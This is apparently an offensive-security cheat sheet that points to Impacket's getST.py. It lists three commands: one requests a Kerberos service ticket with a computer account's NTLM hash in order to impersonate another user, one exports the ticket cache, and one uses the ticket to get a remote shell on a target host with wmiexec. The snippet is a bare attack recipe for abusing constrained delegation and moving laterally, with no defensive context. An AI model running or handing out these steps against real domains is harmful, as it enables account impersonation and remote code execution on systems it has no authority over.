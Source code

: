 ### Source
https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/getST.py  

### Create service ticket using computer account and delegate ticket to impersonate user
```
impacket-getST -spn cifs/<fqdnRhost> -impersonate <impersonateUser> -hashes :<ntlmHash> <domain>/<computerAccount>
```

### Export ticket
```
export KRB5CCNAME=<impersonateUser>.ccache
```

### Use ticket
```
impacket-wmiexec -k -no-pass <fqdnRhost>
```

